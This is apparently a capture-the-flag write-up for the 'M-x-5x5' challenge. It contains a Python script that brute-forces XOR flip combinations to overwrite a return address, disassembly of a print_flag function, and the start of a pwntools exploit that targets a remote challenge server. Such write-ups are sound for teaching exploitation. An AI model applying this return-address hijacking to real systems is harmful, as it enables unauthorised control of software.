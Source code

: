 ```python
#!/usr/bin/python2
import itertools
 
def xor(index, number):
    table= [ 
        int('00000000', 2),
        int('00000111', 2),
        int('00001110', 2),
        int('00011100', 2),
        int('00111000', 2),
        int('01110000', 2),
        int('11100000', 2),
        int('11000000', 2),
        int('10000000', 2),
        int('00000000', 2),
            ]
    number = (number ^ table[index]) % 0x100
    return number

for i in range(10):
    for j in range(10):
        for combo in itertools.combinations(range(i), j):
            number = 0xB
            for k in combo:
                number = xor(k, number)
                if number == 0x07: 
                    print "Got'em:", combo
                    exit(1) 
```
==> `Got'em: (3, 5, 6, 8)`

By using `gdb` and `pwntools` we are able to figure out what the lower byte of the return address is changed to as a result of this: `0x07`
Reuse the python script to figure out how wo flip `0x07` into `0x37`.
It turns out returning to `0x400737` caused the program to crash. Viewing the disassembly shows that `0x400738` should work instead.
```
                    print_flag:
        00400737 55              PUSH       RBP
        00400738 48 89 e5        MOV        RBP,RSP
        0040073b 48 83 ec 40     SUB        RSP,0x40
```

## Solution

`exploit.py`

```python
#!/usr/bin/python2

from pwn import *

with context.quiet:
      #p = process('./M-x-5x5')
      p = remote('13.53.187.163', 50000)
      p.sendline()
      p.sendlineafter('8)? ', "8") # Size of board doesn't actually matter

      #gdb.attach(p, """
      #    b *0x4008f7
      #    b *0x0000000000400acc
      #    b *0x00000000004008ae
      #""")

```

[f <x> <y>/h/q]: f 3 2    /* f/h/q = flip/help/quit */